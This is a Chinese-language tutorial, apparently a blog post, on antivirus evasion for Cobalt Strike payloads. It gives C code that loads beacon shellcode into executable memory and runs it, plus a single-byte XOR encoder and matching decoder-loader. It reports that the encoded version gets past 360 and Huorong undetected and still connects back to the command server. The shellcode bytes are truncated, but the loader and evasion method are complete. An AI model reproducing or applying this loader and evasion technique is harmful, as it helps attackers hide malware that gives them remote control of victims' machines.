



# 0x01 shellcode测试
Cobalt Strike 4.2  
创建监听器beacon http  
Attacks->Packages->Payload Generator（选择之前创建的监听器，输出C格式，勾选x64）  
生成的代码如下
```
#include <windows.h>
#include <stdio.h>
#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")

/* length: 891 bytes */
unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00...";

int main() {
    char* old= VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(old, buf, sizeof(buf));
    ((void(*)())old)();
    return 0;
}
```
下载并安装VS2019，安装时勾选C++和windows这2类，创建windows控制台项目

直接在VS2019下编译会有类型匹配问题，进行强制类型转换的修改，能成功编译的代码如下
```
#include <windows.h>
#include <stdio.h>
#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")

// length: 891 bytes
unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41...";
int main() {
    char* old = (char *)VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(old, buf, sizeof(buf));
    ((void(*)())old)();
    return 0;
}
```
经测试，编译执行后能够成功上线
拷贝到windows server 2008下  
首次复制到虚拟机的时候，360直接给删除了  
再次复制时，没有删除，而且扫描后也没有提示病毒  
但使用火绒扫描后，却提示病毒，如下图  


# 0x02 shellcode免杀
使用如下C代码，对shellcode进行简单编码（每个字节和数字1进行异或）
```
unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00...";

int a = 1;
int b = sizeof(buf);
unsigned char str[891] = { 0 };

int main() {

    printf("char array length=%d\n", b);
    printf("\n");

    for (int i = 0; i < b; i++) {
        str[i] = buf[i] ^ a;
    }

    for (int i = 0; i < b; i++) {
        printf("\\x%x", str[i]);
    }
    
    return 0;
}
```
拷贝上述输出的shellcode到下述代码的字符数组中
```
#include <stdio.h>
#include <windows.h>
unsigned char buf[] = "\xfd\x49\x82\xe5\xf1\xe9\xc9\x1...";

int main() {
    for (int i = 0; i < sizeof(buf); i++) {
        _InterlockedXor8( (volatile char *)buf + i, 1 );
    }
    char* old = (char *)VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(old, buf, sizeof(buf));
    ((void(*)())old)();
    return 0;
}
```
编译执行后，能成功连接到CS  
拷贝到windows server 2008下  
360安全卫士、360杀毒、火绒均未提示  
扫描后也未提示，如下图  
  
执行后能成功连接到CS，如下图  

